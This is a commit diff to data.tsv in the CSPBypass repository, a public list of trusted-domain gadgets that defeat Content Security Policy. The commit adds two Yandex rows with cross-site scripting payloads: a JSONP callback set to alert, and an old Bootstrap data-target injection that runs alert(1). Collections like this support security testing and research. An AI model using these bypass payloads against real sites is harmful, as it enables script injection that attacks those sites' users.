

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
some yandex endpoints added.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 77: social.yandex.ru | <script src="https://social.yandex.ru/providers.jsonp?callback=alert"></script> | notdenied
+row 121: yandex.st | <script src="https://yandex.st/bootstrap/3.0.3/js/bootstrap.min.js"></script><button data-toggle="modal" data-target="$('head').html('<script>alert(1)</script>')">Test XSS</button> | notdenied
```
